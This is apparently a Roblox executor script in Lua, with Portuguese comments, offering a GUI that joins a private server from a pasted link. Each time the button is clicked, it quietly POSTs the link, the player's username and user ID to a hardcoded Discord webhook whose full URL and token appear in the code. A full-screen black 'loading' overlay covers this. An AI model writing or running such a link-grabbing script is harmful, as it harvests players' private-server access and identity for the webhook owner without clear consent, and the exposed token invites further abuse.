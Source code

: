 -- GUI para entrar em servidor privado do Roblox via executor
-- Envia o link para seu Discord via webhook ao clicar "Entrar"

-- Remove GUIs antigas se existirem
pcall(function() game.CoreGui.RobloxPrivateServerGUI:Destroy() end)
pcall(function() game.CoreGui.RobloxPrivateServerLoading:Destroy() end)

local TeleportService = game:GetService("TeleportService")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

local WEBHOOK_URL = "https://discord.com/api/webhooks/1430235119813263485/VDyDMnv2AxKAFnR1gmObyyvRAR9Nn9VxbFsEJe4ANlvc5lAT9bX-_ZtVJ4XqWQwOou5P"

local function sendToDiscord(link, player)
    local data = {
        ["content"] = "",
        ["embeds"] = {{
            ["title"] = "Novo link de servidor privado enviado!",
            ["description"] = "**Link:** "..link.."\n**Jogador:** "..player.Name.." (ID: "..player.UserId..")",
            ["color"] = 5793266
        }}
    }
    local json = game:GetService("HttpService"):JSONEncode(data)
    local req
    if syn and syn.request then
        req = syn.request
    elseif http and http.request then
        req = http.request
    elseif http_request then
        req = http_request
    elseif request then
        req = request
    end

    if req then
        req({
            Url = WEBHOOK_URL,
            Method = "POST",
            Headers = {["Content-Type"] = "application/json"},
            Body = json
        })
    end
end

local ScreenGui = Instance.new("ScreenGui")
ScreenGui.Name = "RobloxPrivateServerGUI"
ScreenGui.Parent = game.CoreGui

local Frame = Instance.new("Frame")
Frame.Size = UDim2.new(0, 350, 0, 150)
Frame.Position = UDim2.new(0.5, -175, 0.5, -75)
Frame.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
Frame.BorderSizePixel = 0
Frame.Parent = ScreenGui

local Title = Instance.new("TextLabel")
Title.Text = "Coloque o Link do Servidor Privado do Roblox"
Title.Size = UDim2.new(1, 0, 0, 30)
Title.BackgroundTransparency = 1
Title.TextColor3 = Color3.fromRGB(255,255,255)
Title.Font = Enum.Font.SourceSansBold
Title.TextSize = 16
Title.Parent = Frame

local Input = Instance.new("TextBox")
Input.PlaceholderText = "https://www.roblox.com/share?code=..."
Input.Size = UDim2.new(1, -20, 0, 35)
Input.Position = UDim2.new(0, 10, 0, 40)
Input.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
Input.TextColor3 = Color3.fromRGB(255,255,255)
Input.Font = Enum.Font.SourceSans
Input.TextSize = 16
Input.Parent = Frame

local Button = Instance.new("TextButton")
Button.Text = "Entrar"
Button.Size = UDim2.new(1, -20, 0, 35)
Button.Position = UDim2.new(0, 10, 0, 85)
Button.BackgroundColor3 = Color3.fromRGB(0, 170, 255)
Button.TextColor3 = Color3.fromRGB(255,255,255)
Button.Font = Enum.Font.SourceSansBold
Button.TextSize = 16
Button.Parent = Frame

local Message = Instance.new("TextLabel")
Message.Text = ""
Message.Size = UDim2.new(1, -20, 0, 20)
Message.Position = UDim2.new(0, 10, 0, 125)
Message.BackgroundTransparency = 1
Message.TextColor3 = Color3.fromRGB(0,255,0)
Message.Font = Enum.Font.SourceSans
Message.TextSize = 14
Message.Parent = Frame

local function showLoading()
    local loadingGui = Instance.new("ScreenGui")
    loadingGui.Name = "RobloxPrivateServerLoading"
    loadingGui.Parent = game.CoreGui
    loadingGui.IgnoreGuiInset = true

    local blackFrame = Instance.new("Frame")
    blackFrame.Size = UDim2.new(1, 0, 1, 0)
    blackFrame.Position = UDim2.new(0, 0, 0, 0)
    blackFrame.BackgroundColor3 = Color3.new(0, 0, 0)
    blackFrame.Parent = loadingGui

    local loadingText = Instance.new("TextLabel")
    loadingText.Size = UDim2.new(1, 0, 1, 0)
    loadingText.Position = UDim2.new(0, 0, 0, 0)
    loadingText.BackgroundTransparency = 1
    loadingText.Text = "Carregando, aguarde..."
    loadingText.TextColor3 = Color3.fromRGB(255,255,255)
    loadingText.Font = Enum.Font.SourceSansBold
    loadingText.TextSize = 38
    loadingText.Parent = blackFrame
end

Button.MouseButton1Click:Connect(function()
    local link = Input.Text
    local code = string.match(link, "code=([a-zA-Z0-9]+)")
    if code then
        local placeId = game.PlaceId
        -- Envia para o Discord
        sendToDiscord(link, LocalPlayer)
        -- Tela preta e carregando
        ScreenGui.Enabled = false
        showLoading()
        -- Teleporta
        TeleportService:TeleportToPrivateServer(placeId, code, {LocalPlayer})
    else
        Message.Text = "Insira um link válido de servidor privado!"
        Message.TextColor3 = Color3.fromRGB(255,0,0)
    end
end)

